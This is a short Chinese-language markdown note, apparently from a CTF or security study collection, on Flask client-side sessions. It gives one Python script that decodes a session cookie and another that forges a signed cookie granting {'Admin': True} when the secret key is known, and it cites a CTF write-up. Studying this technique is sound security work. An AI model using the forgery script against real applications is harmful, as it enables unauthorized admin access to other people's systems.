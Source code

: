 # Session解密与签名伪造

flask的session是client session，并且可以随意解密

## session解密

```python
#!/usr/bin/env python3
import sys
import zlib
from base64 import b64decode
from flask.sessions import session_json_serializer
from itsdangerous import base64_decode

def decryption(payload):
    payload, sig = payload.rsplit(b'.', 1)
    payload, timestamp = payload.rsplit(b'.', 1)

    decompress = False
    if payload.startswith(b'.'):
        payload = payload[1:]
        decompress = True

    try:
        payload = base64_decode(payload)
    except Exception as e:
        raise Exception('Could not base64 decode the payload because of '
                         'an exception')

    if decompress:
        try:
            payload = zlib.decompress(payload)
        except Exception as e:
            raise Exception('Could not zlib decompress the payload before '
                             'decoding the payload')

    return session_json_serializer.loads(payload)

if __name__ == '__main__':
    print(decryption(sys.argv[1].encode()))
```

## Session伪造

```python
from hashlib import sha512
from flask.sessions import session_json_serializer
from itsdangerous import URLSafeTimedSerializer, BadTimeSignature
import base64
import zlib

PAYLOAD = {'Admin': True}

signer = URLSafeTimedSerializer(
    'secret-key', salt='cookie-session',
    serializer=session_json_serializer,
    signer_kwargs={'key_derivation': 'hmac', 'digest_method': sha512}
)

print(signer.dumps(PAYLOAD))
```



## Reference

* https://www.leavesongs.com/PENETRATION/client-session-security.html
* https://terryvogelsang.tech/MITRECTF2018-my-flask-app/

